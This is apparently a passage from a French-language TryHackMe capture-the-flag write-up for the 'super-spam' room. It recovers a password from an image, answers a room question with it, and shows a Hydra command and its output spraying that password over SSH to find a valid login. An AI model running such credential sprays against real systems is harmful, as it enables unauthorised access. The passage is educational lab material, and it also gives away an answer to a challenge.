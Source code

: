 ![page](./Task1-12.png)   

Sur l'image d.png on arrive à voir le code $$L3qwert30kcool.   

**What key information was embedded in one of super-spam's encrypted messages?**

L'information clés était : $$L3qwert30kcool  


```bash
tim@kali:~/Bureau/tryhackme/write-up$ cat name.txt 
benjamin_blogger
donalddump
lucy_loser
personal
super-spam

tim@kali:~/Bureau/tryhackme/write-up$ hydra -L name.txt -p '$$L3qwert30kcool' ssh://super-spam.thm -s 4012
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-11-02 21:39:03
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 5 tasks per 1 server, overall 5 tasks, 5 login tries (l:5/p:1), ~1 try per task
[DATA] attacking ssh://super-spam.thm:4012/
[4012][ssh] host: super-spam.thm   login: donalddump   password: $$L3qwert30kcool
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-11-02 21:39:06

```
